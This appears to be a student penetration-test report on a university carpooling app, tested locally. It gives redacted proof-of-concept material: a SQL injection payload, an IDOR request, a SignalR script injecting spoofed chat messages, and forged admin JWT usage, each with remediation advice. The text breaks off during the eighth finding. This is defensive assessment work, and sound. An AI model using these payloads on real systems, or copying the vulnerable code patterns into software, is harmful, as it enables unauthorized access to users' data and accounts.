








# UniRide Exploitation Report

**Project:** UniRide DevSecOps Secure App Pipeline  
**Phase:** Week 3 - Vulnerability discovery and exploitation  
**Date:** May 13, 2026  
**Status:** Pre-remediation. All findings in this report are open until the remediation and re-test report confirms closure.  
**Scope:** UniRide application source code, Docker/CI configuration, bundled SQLite test database, local API instance, and GitHub Actions security pipeline configuration.

> Safety note: all testing was performed against the group-owned UniRide codebase and local test data only. PII shown by the application/database was redacted in this report.

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Assessment Scope](#2-assessment-scope)
3. [Methodology](#3-methodology)
4. [Architecture and Threat Model Alignment](#4-architecture-and-threat-model-alignment)
5. [Attack Surface](#5-attack-surface)
6. [Findings Summary](#6-findings-summary)
7. [Exploitation Evidence](#7-exploitation-evidence)
   - [F-01 SQL Injection in Ride Search](#f-01-sql-injection-in-ride-search)
   - [F-02 Passenger Profile IDOR](#f-02-passenger-profile-idor)
   - [F-03 Unauthenticated SignalR Chat Injection](#f-03-unauthenticated-signalr-chat-injection)
   - [F-04 Hardcoded Default Admin Credentials](#f-04-hardcoded-default-admin-credentials)
   - [F-05 JWT Admin Token Forgery](#f-05-jwt-admin-token-forgery)
   - [F-06 Sensitive Data Committed in SQLite Database](#f-06-sensitive-data-committed-in-sqlite-database)
   - [F-07 Vulnerable Frontend Dependencies](#f-07-vulnerable-frontend-dependencies)
   - [F-08 Weak OTP Generation and Verification Controls](#f-08-weak-otp-generation-and-verification-controls)
8. [Attack Chains](#8-attack-chains)
9. [Automated Tool Coverage](#9-automated-tool-coverage)
10. [False Positives and Non-Findings](#10-false-positives-and-non-findings)
11. [Business Impact](#11-business-impact)
12. [Remediation Handoff](#12-remediation-handoff)
13. [Appendix A - Commands Used](#13-appendix-a---commands-used)
14. [Appendix B - Evidence Capture Checklist](#14-appendix-b---evidence-capture-checklist)

## 1. Executive Summary

> **Plain-language summary (non-technical audience)**
>
> UniRide is a university carpooling application used by Habib University students to share rides. During this assessment, the security team found eight vulnerabilities — weaknesses that a malicious actor could exploit.
>
> The three most serious issues were: (1) anyone with access to the source code repository could take full administrative control of the platform without knowing any password, because a secret security key was accidentally stored in the code; (2) any logged-in student could read another student's name, university email address, and phone number just by guessing a number in a web address; (3) anyone on the internet could inject fake messages into passenger ride chats without logging in at all, allowing an attacker to send fraudulent pickup instructions or impersonate drivers.
>
> Student contact details, ride histories, and password hashes were also found stored directly inside the code repository, meaning anyone who could view the code could access that data.
>
> **Overall risk before remediation: Critical.** A breach would expose student personal information, allow administrative takeover, and enable misinformation in safety-critical ride communications. All findings are documented below with full evidence and recommended fixes.

---

The most important risk is administrative takeover. The repository contained a hardcoded signing key used to generate authentication tokens. Using that committed key, an attacker can create a forged admin token and call admin-only API endpoints without knowing any real user's password. This was verified locally by generating a forged admin token and successfully reading `/api/admin/stats`.

The second major risk is broken access control. A passenger can request another user's profile by changing the `userId` in the URL, exposing names, university emails, phone numbers, and creation dates. The repository also includes a SQLite database containing real-looking user records, which makes data exposure worse because sensitive data is already present in source control.

The third major risk is business-logic abuse through the real-time chat feature. The chat endpoint has no authentication requirement and does not check ride membership before allowing users to join ride groups or send messages. A contained proof-of-concept connected without any credentials, joined ride group `24`, and sent a spoofed message successfully.

Overall risk before remediation is **Critical**. The remediation team should prioritize secret rotation, removing committed databases and secrets from version history, parameterizing SQL queries, enforcing object-level authorization, securing the chat endpoint, and upgrading vulnerable dependencies.

## 2. Assessment Scope

### In Scope

| Area | Evidence Reviewed |
|---|---|
| Backend API | ASP.NET Core controllers, auth, SignalR hub, EF Core data access |
| Frontend | React routing, token storage, API calls, package lock |
| Database | Bundled SQLite database used as test data |
| Docker | `docker-compose.yml`, backend/frontend Dockerfiles, Nginx HTTPS proxy |
| Pipeline | GitHub Actions SAST, SCA, and DAST workflow |
| Threat model | Existing UniRide threat model and architecture assets under `docs/` |

### Out of Scope

- Attacks against third-party services such as Gmail SMTP.
- Attacks against real users or real university systems.
- Destructive admin actions such as deleting users or cancelling rides. These were proven possible but not executed.
- Production internet scanning beyond the group-owned deployment.

## 3. Methodology

The exploitation phase combined automated and manual techniques:

| Method | Tool / Source | Purpose |
|---|---|---|
| SAST review | Manual code review + SonarCloud workflow configuration | Find injection, authorization, secret, and error-handling issues |
| SCA review | `npm audit` in a Node Docker container, .NET restore warnings, Dependency-Check workflow | Identify vulnerable dependencies |
| DAST review | OWASP ZAP API scan workflow configuration | Confirm dynamic API testing is integrated |
| Manual API testing | PowerShell `Invoke-RestMethod` against local API | Verify exploitability of auth, IDOR, SQLi, and admin APIs |
| Database inspection | SQLite read-only inspection of local test DB | Confirm impact and sensitive data exposure |
| SignalR PoC | Node container with `@microsoft/signalr` | Verify unauthenticated hub connection and method invocation |

Local Docker Compose was attempted, but backend image build was repeatedly interrupted by `mcr.microsoft.com` registry EOF errors while pulling .NET SDK layers. To avoid blocking testing, the API was built locally with .NET SDK 8 using:

```powershell
dotnet build UniRide.Api.csproj /p:BuildProjectReferences=false --configuration Release
```

The API was then started directly on `http://127.0.0.1:5007` using the existing development SQLite database.

## 4. Architecture and Threat Model Alignment

Architecture asset:



The existing threat model identifies these trust boundaries:

| Boundary | Description | Findings Tied to Boundary |
|---|---|---|
| TB1 | Public / browser, untrusted users | F-03, F-04, F-05 |
| TB2 | Frontend + API entry, semi-trusted | F-01, F-02, F-07 |
| TB3 | Backend services, controllers and SignalR | F-01, F-02, F-03, F-08 |
| TB4 | Data layer, SQLite and configuration | F-04, F-05, F-06 |

### STRIDE Mapping

| STRIDE Category | Relevant Findings | Explanation |
|---|---|---|
| Spoofing | F-03, F-04, F-05 | Attackers can impersonate chat senders or mint admin JWTs. |
| Tampering | F-01, F-03, F-05 | SQL logic and chat messages can be manipulated. Forged admin tokens can alter protected resources. |
| Repudiation | F-03, F-05 | Forged chat/admin actions are not strongly attributable to a real authenticated user. |
| Information Disclosure | F-01, F-02, F-06, F-07 | Ride data, user PII, dependency exposure, and committed database contents are exposed. |
| Denial of Service | F-07 | Several dependency advisories include DoS vectors. |
| Elevation of Privilege | F-04, F-05 | Default credentials and JWT signing-key exposure enable admin access. |

## 5. Attack Surface

| Feature / Endpoint | Role Expected | Attack Surface Notes |
|---|---|---|
| `POST /api/auth/login` | Public | Default admin credentials and role selection flow. |
| `POST /api/auth/send-otp` and `verify-otp` | Public | OTP generated with `Random`, no expiry/rate-limit evidence. |
| `GET /api/ridesearch/search?query=` | Passenger | Raw SQL string concatenation. |
| `GET /api/passengerprofile/user/{userId}` | Passenger | Object-level access control missing. |
| `/hubs/chat` SignalR hub | Authenticated ride members expected | Hub itself is unauthenticated and membership is not checked. |
| `/api/admin/*` | Admin | Proper `[Authorize(Roles = "admin")]`, but bypassed if JWT key is known. |
| `backend/appsettings.json` | Internal config only | Contains committed JWT, email, and admin secrets. |
| `backend/carpoolapp.db` | Runtime data only | Contains user data in Git. |

## 6. Findings Summary

| ID | Finding | Severity | CVSS v3.1 | OWASP 2021 | Status |
|---|---|---:|---|---|---|
| F-01 | SQL Injection in ride search | High | 7.1 - `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N` | A03 Injection | Open |
| F-02 | Passenger profile IDOR | Medium | 6.5 - `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` | A01 Broken Access Control | Open |
| F-03 | Unauthenticated SignalR chat injection | High | 8.2 - `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:H/A:N` | A01 Broken Access Control | Open |
| F-04 | Hardcoded default admin credentials | Critical | 9.8 - `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` | A07 Identification and Authentication Failures | Open |
| F-05 | JWT admin token forgery using committed key | Critical | 9.8 - `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` | A02 Cryptographic Failures | Open |
| F-06 | Sensitive data committed in SQLite database | High | 7.5 - `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | A04 Insecure Design | Open |
| F-07 | Vulnerable frontend dependencies | High | 8.2 - highest npm advisory observed | A06 Vulnerable and Outdated Components | Open |
| F-08 | Weak OTP generation and verification controls | Medium | 6.5 - `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N` | A07 Identification and Authentication Failures | Open |

## 7. Exploitation Evidence

### F-01 SQL Injection in Ride Search

**Affected code:** `backend/Controllers/Passenger/RideSearchController.cs`

```csharp
var sql = "SELECT * FROM Rides WHERE Status = 0 AND DepartureTime >= datetime('now') " +
          "AND (Origin LIKE '%" + query + "%' OR Destination LIKE '%" + query + "%')";

var rides = _context.Rides.FromSqlRaw(sql)
```

**Root cause:** user input is concatenated into raw SQL and passed to `FromSqlRaw`.

**Proof of exploit:**

1. Login as a passenger and capture a JWT.
2. Send a normal search.
3. Send an injected search payload.

```http
GET /api/ridesearch/search?query=Habib HTTP/1.1
Host: 127.0.0.1:5007
Authorization: Bearer <passenger-jwt>
```

Observed result:

```json
{
  "status": 404,
  "message": "No rides found for the given search term."
}
```

Injected request:

```http
GET /api/ridesearch/search?query=%27)%20OR%201%3D1%20-- HTTP/1.1
Host: 127.0.0.1:5007
Authorization: Bearer <passenger-jwt>
```

Observed result, redacted:

```json
{
  "count": 3,
  "value": [
    {
      "rideId": 24,
      "origin": "Habib University",
      "destination": "Nisar Shaheed park",
      "departureTime": "2025-04-25T12:20:00",
      "driverName": "<redacted>",
      "vehicleModel": "Santa FE"
    },
    {
      "rideId": 25,
      "origin": "Creek walk",
      "destination": "Habib University",
      "driverName": "<redacted>"
    },
    {
      "rideId": 26,
      "origin": "Habib University",
      "destination": "Golf club",
      "driverName": "<redacted>"
    }
  ]
}
```



**Impact:** an authenticated passenger can bypass ride search restrictions and retrieve rides that should not appear. Because the raw SQL is attacker-controlled, future schema changes or projection changes could expose more database content.

**Recommended fix:** replace string concatenation with LINQ or parameterized SQL:

```csharp
var rides = _context.Rides
    .Where(r => r.Status == RideStatus.Scheduled &&
                r.DepartureTime >= DateTime.UtcNow &&
                (r.Origin.Contains(query) || r.Destination.Contains(query)));
```

### F-02 Passenger Profile IDOR

**Affected code:** `backend/Controllers/Passenger/PassengerProfileController.cs`

```csharp
[HttpGet("user/{userId}")]
public async Task<IActionResult> GetUserProfile(int userId)
{
    var user = await _context.Users.FindAsync(userId);
    if (user == null)
        return NotFound();

    return Ok(new
    {
        user.UserId,
        user.FullName,
        user.UniversityEmail,
        user.PhoneNumber,
        user.CreatedAt
    });
}
```

**Root cause:** the endpoint trusts the `userId` route parameter and does not compare it to the authenticated user's `ClaimTypes.NameIdentifier`.

**Proof of exploit:**

The attacker is authenticated as passenger user `9` but requests profile `1`.

```http
GET /api/passengerprofile/user/1 HTTP/1.1
Host: 127.0.0.1:5007
Authorization: Bearer <passenger-jwt-for-user-9>
```

Observed result, redacted:

```json
{
  "userId": 1,
  "fullName": "<another user's name>",
  "universityEmail": "<another user's university email>",
  "phoneNumber": "<another user's phone number>",
  "createdAt": "2025-04-13T18:27:21.927592"
}
```



**Impact:** any passenger can enumerate user IDs and collect other users' PII.

**Recommended fix:** remove the route parameter for self-profile endpoints, or enforce:

```csharp
var authenticatedUserId = int.Parse(User.FindFirstValue(ClaimTypes.NameIdentifier));
if (userId != authenticatedUserId) return Forbid();
```

Admin user lookup should remain under `/api/admin/*` and require the admin role.

### F-03 Unauthenticated SignalR Chat Injection

**Affected code:** `backend/Hub/ChatHub.cs`

```csharp
public class ChatHub : Hub
{
    public async Task JoinRideGroup(string rideId)
    {
        await Groups.AddToGroupAsync(Context.ConnectionId, $"ride_{rideId}");
    }

    public async Task SendMessage(int rideId, string message, string senderName, int messageId, DateTime sentAt)
    {
        await Clients.Group($"ride_{rideId}").SendAsync("ReceiveMessage", messageId, message, senderName, sentAt);
    }
}
```

**Root cause:** the hub has no `[Authorize]` attribute, and hub methods do not verify that the caller is an accepted passenger or driver for the ride.

**Proof of exploit:**

The following contained Node/SignalR client connected without a JWT, joined ride group `24`, and invoked `SendMessage`.

```javascript
const signalR = require("@microsoft/signalr");

const conn = new signalR.HubConnectionBuilder()
  .withUrl("http://host.docker.internal:5007/hubs/chat")
  .build();

await conn.start();
await conn.invoke("JoinRideGroup", "24");
await conn.invoke(
  "SendMessage",
  24,
  "Unauthenticated PoC message",
  "Spoofed Admin",
  9999,
  new Date().toISOString()
);
```

Observed terminal evidence:

```text
WebSocket connected to ws://host.docker.internal:5007/hubs/chat?id=<redacted>
{"unauthenticatedHubConnection":"started","joinedRideGroup":24,"sendMessageInvoke":"succeeded"}
Connection disconnected.
```



**Impact:** an unauthenticated attacker can inject fake ride chat messages and spoof trusted senders. With a live victim connected to the same ride group, this can be used for phishing, safety misinformation, or social engineering.

**Recommended fix:**

- Add `[Authorize]` to `ChatHub`.
- Use `Context.UserIdentifier` or claims to identify the caller.
- Check conversation membership before joining a group or sending.
- Do not accept `senderName`, `messageId`, or `sentAt` from the client.

### F-04 Hardcoded Default Admin Credentials

**Affected code:** `backend/appsettings.json` and `backend/Program.cs`

`appsettings.json` contains default admin settings. The exact secret values are not repeated here; they should be treated as compromised because they are committed to source control.

Relevant seeding logic:

```csharp
var adminEmail = config["AdminSettings:Email"];
if (!db.Users.Any(u => u.UniversityEmail == adminEmail))
{
    var hasher = new PasswordHasher<User>();
    var adminUser = new User
    {
        FullName = config["AdminSettings:FullName"],
        UniversityEmail = adminEmail,
        PhoneNumber = config["AdminSettings:PhoneNumber"],
        CreatedAt = DateTime.UtcNow
    };
    adminUser.PasswordHash = hasher.HashPassword(adminUser, config["AdminSettings:Password"]);
    db.Users.Add(adminUser);
    db.SaveChanges();
}
```

**Proof of exploit:**

```http
POST /api/auth/login HTTP/1.1
Host: 127.0.0.1:5007
Content-Type: application/json

{
  "universityEmail": "<committed-admin-email>",
  "password": "<committed-admin-password>",
  "role": "admin"
}
```

Observed result:

```json
{
  "login": "Admin login successful.",
  "role": "admin",
  "userId": 9,
  "adminStats": {
    "totalUsers": 9,
    "totalRides": 3,
    "activeRides": 3
  }
}
```



**Impact:** anyone with repository access can log in as admin on a deployment that uses the committed defaults.

**Recommended fix:**

- Remove all production secrets from `appsettings.json`.
- Load admin bootstrap credentials from environment variables or a secret manager.
- Force admin password rotation on first deployment.
- Rotate existing exposed credentials immediately.

### F-05 JWT Admin Token Forgery

**Affected code:** `backend/appsettings.json`, `backend/Program.cs`, `backend/Controllers/Shared/AuthController.cs`

The JWT signing key is committed in `appsettings.json` and used directly for HMAC signing:

```csharp
IssuerSigningKey = new SymmetricSecurityKey(
    Encoding.UTF8.GetBytes(builder.Configuration["Jwt:Key"])
)
```

Token generation uses the same key:

```csharp
var key = new SymmetricSecurityKey(Encoding.UTF8.GetBytes(_configuration["Jwt:Key"]));
var creds = new SigningCredentials(key, SecurityAlgorithms.HmacSha256);
```

**Proof of exploit:**

A PowerShell PoC generated an HS256 token containing:

```json
{
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "admin",
  "iss": "CarpoolApp",
  "aud": "CarpoolAppUsers",
  "exp": "<future timestamp>"
}
```

The token was signed using the committed `Jwt:Key` value and submitted to an admin endpoint:

```http
GET /api/admin/stats HTTP/1.1
Host: 127.0.0.1:5007
Authorization: Bearer <forged-admin-jwt>
```

Observed result:

```json
{
  "forgedTokenPrefix": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpX...",
  "response": {
    "totalUsers": 9,
    "totalRides": 3,
    "activeRides": 3
  }
}
```



**Impact:** repository access becomes admin access. An attacker does not need a real password. With the forged token, admin-only endpoints can list users, delete users, list rides, and cancel rides.

**Recommended fix:**

- Rotate the JWT signing key.
- Store it only in GitHub Actions secrets, host environment variables, or a secret manager.
- Use a long random key generated by a cryptographic random source.
- Add key rotation and token invalidation after incident response.

### F-06 Sensitive Data Committed in SQLite Database

**Affected files:** `backend/carpoolapp.db`, `backend/carpoolapp.db-shm`, `backend/carpoolapp.db-wal`

The repository includes a SQLite database containing user records. Local inspection showed records with names, university emails, phone numbers, password hashes, vehicles, rides, ride requests, and conversations.

Evidence, redacted:

```text
Users table:
  userId=1, fullName=<redacted>, universityEmail=<redacted>, phoneNumber=<redacted>, passwordHash=<present>
  userId=2, fullName=<redacted>, universityEmail=<redacted>, phoneNumber=<redacted>, passwordHash=<present>

Rides table:
  rideId=24, origin=Habib University, destination=Nisar Shaheed park
  rideId=25, origin=Creek walk, destination=Habib University
  rideId=26, origin=Habib University, destination=Golf club
```



**Impact:** if the repository is public, user PII and password hashes are already exposed. Even if password hashes are strong, this creates privacy, compliance, and trust risks.

**Recommended fix:**

- Remove database files from Git.
- Add `*.db`, `*.db-shm`, and `*.db-wal` to `.gitignore`.
- Rewrite Git history if the repository is public and rotate any exposed accounts.
- Replace real data with a deterministic seed script using fake test data.

### F-07 Vulnerable Frontend Dependencies

**Affected files:** `frontend/package-lock.json`, `frontend/package.json`

`npm audit` was run inside `node:20-alpine` against the frontend package lock.

Observed summary:

```json
{
  "vulnerabilities": {
    "low": 2,
    "moderate": 5,
    "high": 7,
    "critical": 1,
    "total": 15
  }
}
```



Notable advisories:

| Package | Severity | Example Advisory | CVSS / Impact |
|---|---:|---|---|
| `form-data` | Critical | `GHSA-fjxv-7rqg-78g4` | Unsafe random boundary generation |
| `axios` | High | `GHSA-4hjh-wcwx-xvwj` | CVSS 7.5 DoS |
| `axios` | High | `GHSA-pf86-5x62-jrwf` | CVSS 7.4 prototype-pollution gadgets |
| `react-router` | High | `GHSA-8v8x-cx79-35w7` | CVSS 8.2 XSS |
| `vite` | High | `GHSA-p9ff-h696-f583` | Arbitrary file read via dev server WebSocket |

**Impact:** vulnerable packages increase the chance of client-side XSS, denial of service, request tampering, and development-server file disclosure. Some advisories may be dev-only depending on deployment mode, so the remediation report should separate runtime risk from build-time risk.

**Recommended fix:**

- Run `npm audit fix` and review breaking changes.
- Upgrade `axios`, `react-router-dom`, `vite`, `form-data`, and transitive dependencies.
- Re-run SCA in CI and keep `--failOnCVSS 7` or equivalent quality gates.

### F-08 Weak OTP Generation and Verification Controls

**Affected code:** `backend/Controllers/Shared/AuthController.cs`

```csharp
private static readonly ConcurrentDictionary<string, string> OtpStore = new();

string otp = new Random().Next(100000, 999999).ToString();
